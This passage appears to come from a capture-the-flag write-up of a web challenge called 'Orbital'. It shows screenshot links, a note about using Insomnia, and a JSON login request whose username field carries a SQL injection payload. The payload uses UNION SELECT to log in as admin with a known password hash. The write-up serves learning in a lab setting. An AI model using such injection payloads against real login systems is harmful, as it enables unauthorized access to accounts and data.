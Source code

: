 ![Orbital Screenshot](web-orbital/02.png)
![Orbital Screenshot](web-orbital/03.png)

Perfect - Now we need to take a look at that vulnerable `/export` endpoint.

At this point though I switched over to using [Insomnia](https://insomnia.rest) because I find it easier to talk to an API with a tool designed for the task. A person could easily use Postman, Burp Suite, or just any web browser's developer tools - I'm a developer who works on APIs, and I like Insomnia, so it's what I chose.

In Insomnia I repeated the login processes by sending the following `POST` request to `/api/login`

```json
{
	"username" : "\" UNION SELECT \"admin\",\"e99a18c428cb38d5f260853678922e03\" -- ",
	"password" : "abc123"
}
```
